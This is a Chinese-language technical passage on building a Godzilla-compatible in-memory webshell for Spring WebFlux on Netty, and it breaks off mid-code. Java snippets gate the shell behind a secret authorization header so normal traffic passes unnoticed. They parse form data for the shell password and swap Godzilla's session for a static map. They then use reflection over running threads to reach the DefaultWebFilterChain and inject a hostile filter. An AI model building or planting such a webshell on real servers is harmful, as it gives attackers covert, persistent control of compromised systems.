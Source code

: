 哥斯拉里面生成jsp的马

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230403150154035.png)

filter不能影响正常的业务，加一个身份验证的http头：

```java
String authorizationHeader = exchange.getRequest().getHeaders().getFirst(HttpHeaders.AUTHORIZATION);
if(authorizationHeader != null && authorizationHeader.equals(auth)) {......}
```

表单数据用`ServerWebexchange.getFormData()`获取

```java
Mono<MultiValueMap<String, String>> formData = exchange.getFormData();
```

获取到的数据是键值对数据流，用flatMap对数据流进行合并化：

```java
 Mono bufferStream = formData.flatMap(map -> {
                String passStr = map.getFirst(pass);
                StringBuilder result = new StringBuilder();
     			......
 				return Mono.just(new DefaultDataBufferFactory().wrap(result.toString().getBytes(StandardCharsets.UTF_8)));
});
```

为方便移植，把哥斯拉的session换成`Map<String,Object>`

```java
public static Map<String, Object> store = new HashMap<>();
```



2. 从线程中获取到DefaultWebFilterChain:

```java
getThreads = Thread.class.getDeclaredMethod("getThreads");
        getThreads.setAccessible(true);
        Object threads = getThreads.invoke(null);
        for (int i = 0; i < Array.getLength(threads); i++) {
            Object thread = Array.get(threads, i);
            if (thread != null && thread.getClass().getName().contains("NettyWebServer")) {
                // 获取defaultWebFilterChain
                NettyWebServer nettyWebServer = (NettyWebServer) getFieldValue(thread, "this$0",false);
                ReactorHttpHandlerAdapter reactorHttpHandlerAdapter = (ReactorHttpHandlerAdapter) getFieldValue(nettyWebServer, "handler",false);
                Object delayedInitializationHttpHandler = getFieldValue(reactorHttpHandlerAdapter,"httpHandler",false);
                HttpWebHandlerAdapter httpWebHandlerAdapter= (HttpWebHandlerAdapter)getFieldValue(delayedInitializationHttpHandler,"delegate",false);
                ExceptionHandlingWebHandler exceptionHandlingWebHandler= (ExceptionHandlingWebHandler)getFieldValue(httpWebHandlerAdapter,"delegate",true);
                FilteringWebHandler filteringWebHandler = (FilteringWebHandler)getFieldValue(exceptionHandlingWebHandler,"delegate",true);
                DefaultWebFilterChain defaultWebFilterChain= (DefaultWebFilterChain)getFieldValue(filteringWebHandler,"chain",false);
```
